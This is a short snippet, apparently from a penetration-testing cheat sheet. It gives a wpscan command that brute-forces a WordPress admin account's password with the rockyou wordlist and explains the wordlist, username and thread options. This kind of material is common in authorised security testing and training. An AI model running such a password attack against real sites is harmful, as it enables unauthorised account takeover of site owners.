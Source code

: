 Brute Force The WordPress Admin Account Password:

	wpscan -url targetwordpressurl.com -wordlist /usr/share/wordlists/rockyou.txt -username admin -threads 2

-wordlist: replace wordlist and location with your choice
-username: your target’s username
-threads: replace the number of threads you would like to use